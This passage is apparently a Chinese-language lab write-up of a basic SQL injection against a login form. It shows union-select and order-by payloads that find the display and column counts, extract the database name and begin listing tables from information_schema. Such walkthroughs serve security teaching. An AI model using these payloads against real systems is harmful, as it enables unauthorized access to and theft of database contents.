 ## 二、简单注入

### 判断有几个显示位。

输入如下:

```bash
用户名：1' union select 1,2,3#
密码：111（任意）
```

发现报错，显示位不是3，重试

```bash
用户名：1' union select 1,2#
密码：111（任意）
```

![QefHtx.png](https://s2.ax1x.com/2019/12/01/QefHtx.png)

显示位为两位

### 确定表有几列

```bash
用户名：1' order by 3#
密码：111（任意）
```

报错，不是3列

```bash
用户名：1' order by 2#
密码：111（任意）
```

![QefXcD.png](https://s2.ax1x.com/2019/12/01/QefXcD.png)

表有2列

### 获取数据库名

```bash
用户名：1' union select 1,database() #
密码：111（任意）
```

![Qeh9AI.png](https://s2.ax1x.com/2019/12/01/Qeh9AI.png)

数据库名为sqlin

### 获取表名

```bash
用户名：1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
密码：111（任意）
```
